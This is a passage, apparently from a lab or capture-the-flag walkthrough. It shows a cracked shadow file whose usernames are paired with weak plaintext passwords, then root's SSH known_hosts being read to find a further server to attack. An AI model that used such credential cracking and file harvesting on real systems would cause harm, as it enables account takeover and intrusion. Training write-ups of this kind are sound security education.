 kclemons:monkey:16567:0:99999:7:::
aharp:passw0rd:16567:0:99999:7:::
kwebber:superman:16567:0:99999:7:::
dgrant:internet:16567:0:99999:7:::
jdavenport:babyl0n:16567:0:99999:7:::
ktso:starwars:16567:0:99999:7:::
aweiland:abc123:16567:0:99999:7:::
dcooper:pokemon:16567:0:99999:7:::

50 password hashes cracked, 0 left
{% endcodeblock %}

There is also a trace that the root user connected via ssh to another server with IP address 192.168.1.20:
{% codeblock %}
root@slax:~# cat .ssh/known_hosts
192.168.1.20 ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEA3ViCbImH/GTN+b1DigEYLnrUSHk8J7ZEt6+IX1etXQx89VQXhKAh098dpoUIAlnYIIsCcvmqHSwbCY0JxwwoV7bHqfQB/y05hWv//hQ6hhOIJBJfTOuezAgMxEbZbfaEJf5U3ROhGd4TbdIrsaoPruQ9asG/ok6yrWfKBK6pcizIxL/Q+uvRlcC8X=
{% endcodeblock %}
